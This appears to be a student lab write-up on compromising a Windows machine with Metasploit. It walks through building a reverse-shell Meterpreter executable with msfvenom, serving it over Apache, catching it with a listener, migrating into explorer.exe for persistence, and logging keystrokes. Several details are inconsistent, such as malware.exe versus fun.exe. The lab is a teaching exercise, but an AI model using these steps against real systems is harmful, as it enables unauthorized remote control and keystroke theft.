 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/0aaf688d-2d73-4d34-8453-3e64cc703b24)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > malware.exe
#### OUTPUT
![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/47c3b051-8684-488d-895c-bea9f2d2604e)


copy the malware.exe into the apache /var/www/html folder

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/750b6c58-84d1-4614-b9fc-09fe2fedd029)


Start apache server
sudo systemctl apache2 start

![startapache2](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/f2bdb40b-22b8-409e-8295-7cac780eab89)

Check the status of apache2

![status](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d5dca89e-d102-408d-aa25-d60e7e09ff2b)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![usemultihandler](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/31c4d664-f12a-45a9-aa29-e988f03e88e1)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![download](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a6b73051-a143-4740-b3d9-27c23762218f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exploit](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/b46a08f7-a9fc-4e71-8fdd-170ee187dd22)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![meterpreter-ps](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/7e6e28fb-b095-4fd1-81f8-a0292f82c9a2)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![notepad](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/35be18d7-51b0-4529-8fd8-76740f0c9ba6)
keyscan_dump	Shows the keystrokes captured so far
![keyscan_dump](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d40a4428-0c65-4855-be1d-c278766082fb)






## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
